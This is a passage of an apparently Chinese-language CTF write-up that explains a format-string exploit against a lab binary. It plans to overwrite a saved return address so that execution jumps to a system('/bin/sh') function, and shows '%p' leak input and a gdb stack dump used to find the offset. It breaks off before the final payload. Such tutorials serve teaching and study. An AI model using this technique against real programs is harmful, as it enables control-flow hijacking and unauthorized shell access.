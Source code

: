 好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

### 利用思路

我们最终的目的是希望可以获得系统的shell，可以发现在给定的文件中，在00000000004008A6地址处有一个直接调用system('bin/sh')的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于rbp的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

- 确定偏移
- 获取函数的rbp与返回地址
- 根据相对偏移获取存储返回地址的地址
- 将执行system函数调用的地址写入到存储返回地址的地址。

### 确定偏移

首先，我们先来确定一下偏移。输入用户名aaaaaaaa，密码随便输入，断点下在输出密码的那个printf(&a4 + 4)函数处

```text
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p%p%p%p%p%p%p%p%p%p
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
...
```

此时栈的情况为

```text
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```
